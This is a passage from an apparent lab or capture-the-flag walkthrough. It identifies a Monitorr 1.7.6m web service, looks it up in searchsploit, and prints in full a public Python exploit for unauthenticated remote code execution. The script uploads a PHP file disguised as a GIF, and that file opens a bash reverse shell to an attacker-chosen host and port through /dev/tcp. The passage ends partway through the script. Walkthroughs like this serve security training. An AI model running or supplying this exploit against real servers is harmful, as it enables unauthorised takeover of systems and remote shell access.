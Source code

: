```shell
           Raw packets sent: 78 (5.316KB) | Rcvd: 36 (2.872KB)
```

Navigate to port `80` and at the bottom of the web page notice the version `Monitorr 1.7.6m`.

Then put the version found on `searchsploit`.
- Command: `searchsploit monitorr 1.7.6m`

```shell
geobour98@kali:~$ searchsploit monitorr 1.7.6m 
----------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                               |  Path
----------------------------------------------------------------------------- ---------------------------------
Monitorr 1.7.6m - Authorization Bypass                                       | php/webapps/48981.py
Monitorr 1.7.6m - Remote Code Execution (Unauthenticated)                    | php/webapps/48980.py
----------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Exploitation

Then, we can mirror the exploit: `php/webapps/48980.py`.

- Command: `searchsploit -m php/webapps/48980.py`

Don't modify the script and it should look like this:


```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-

# Exploit Title: Monitorr 1.7.6m - Remote Code Execution (Unauthenticated)
# Date: September 12, 2020
# Exploit Author: Lyhin's Lab
# Detailed Bug Description: https://lyhinslab.org/index.php/2020/09/12/how-the-white-box-hacking-works-authorization-bypass-and-remote-code-execution-in-monitorr-1-7-6/
# Software Link: https://github.com/Monitorr/Monitorr
# Version: 1.7.6m
# Tested on: Ubuntu 19

import requests
import os
import sys

if len (sys.argv) != 4:
        print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
else:
    url = sys.argv[1] + "/assets/php/upload.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

    data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"she_ll.php\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

    requests.post(url, headers=headers, data=data)

    print ("A shell script should be uploaded. Now we try to execute it")
```